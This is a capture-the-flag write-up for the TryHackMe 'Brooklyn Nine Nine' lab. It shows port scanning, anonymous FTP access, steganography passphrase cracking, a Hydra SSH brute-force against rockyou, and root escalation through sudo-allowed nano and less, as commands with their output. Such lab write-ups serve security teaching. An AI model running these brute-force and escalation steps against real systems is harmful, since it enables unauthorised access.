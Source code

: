 # Brooklyn Nine Nine
###### tags: `THM` `OSCP`

This is an easy room with 2 equally fun paths to exploit. Steganography or Brute-forcing, Holt or Peralta. Then use GTFO bins to get the root.

## 1. Scanning & Enumeration
### 1.1. Port Scanning
```
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.8.184
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Anonymous login shows us an interesting file: `note_to_jake.txt`.

Also running a full port scan, we get no additional information.
```
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### 1.2 Web Exploration
![Brooklyn Nine Nine Homepage image](https://i.imgur.com/6XcDCc8.jpg)

In the sourcecode, we see the following line: `<!-- Have you ever heard of steganography? -->`.

### 1.3 FTP 
So one thing we found was Anonymous login in FTP. Let's get the interesting file.
```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.150.90
Connected to 10.10.150.90.
220 (vsFTPd 3.0.3)
Name (10.10.150.90:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (391.2826 kB/s)
ftp> 
221 Goodbye.
```

Given that we have no other special pages, or any other ports - we have one option to bruteforce SSH.
```
┌──(kali㉿kali)-[/tmp]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
This is another pathway we can take.

### 1.4 Steganography
Let's get the image: `http://10.10.150.90/brooklyn99.jpg`.

Using steghide, to get the hidden file in the image - 
```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Okay. Let's get [StegSeek](https://github.com/RickdeJager/stegseek). It goes through the entire rockyou.txt in 2 seconds :)

Download the `.deb` file if you are on a debian based system, and install as shown below.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo dpkg --install stegseek_0.6-1.deb 
Selecting previously unselected package stegseek.
(Reading database ... 305959 files and directories currently installed.)
Preparing to unpack stegseek_0.6-1.deb ...
Unpacking stegseek (0.6-1) ...
Setting up stegseek (0.6-1) ...
```

Time to get in!

## 2. Foothold (Holt Path)
```
┌──(kali㉿kali)-[/tmp]
└─$ stegseek brooklyn99.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "*****"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
```

Voila! We get the passphrase, and the output file.

```
┌──(kali㉿kali)-[/tmp]
└─$ cat brooklyn99.jpg.out 
Holts Password:
{password}

Enjoy!!
```

Logging in,

```
┌──(kali㉿kali)-[/tmp]
└─$ ssh holt@10.10.150.90  
The authenticity of host '10.10.150.90 (10.10.150.90)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.150.90' (ECDSA) to the list of known hosts.
holt@10.10.150.90's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 
```

We are in!

## 3. PrivEsc (Holt Path)
Time to get the root. One very very good starting point is checking sudo permissions.
```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```


Use [GTFO bins](https://gtfobins.github.io/gtfobins/nano/#sudo). Too easy!

## 4. Foothold (Jake Path)
Let's also explore the other path hinted in the room. As I mentioned above, we can bruteforce SSH using Hydra.
```
┌──(kali㉿kali)-[/tmp]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.150.90 -t 4   
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-30 23:30:06
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.150.90:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.150.90   login: jake   password: {password}
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-30 23:32:45
```

Logging in,

```
┌──(kali㉿kali)-[~]
└─$ ssh jake@10.10.150.90
jake@10.10.150.90's password: 
Last login: Mon May 31 03:59:08 2021 from 10.17.8.184
jake@brookly_nine_nine:~$ ls
```

We do not have any flag here. What we need is root permissions, so that we have it all.

## 5. PrivEsc (Jake Path)
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ /usr/bin/less /root/root.txt
jake@brookly_nine_nine:~$ 
```

Use [GTFO bins](https://gtfobins.github.io/gtfobins/nano/#sudo).

System FULLY Compromised!
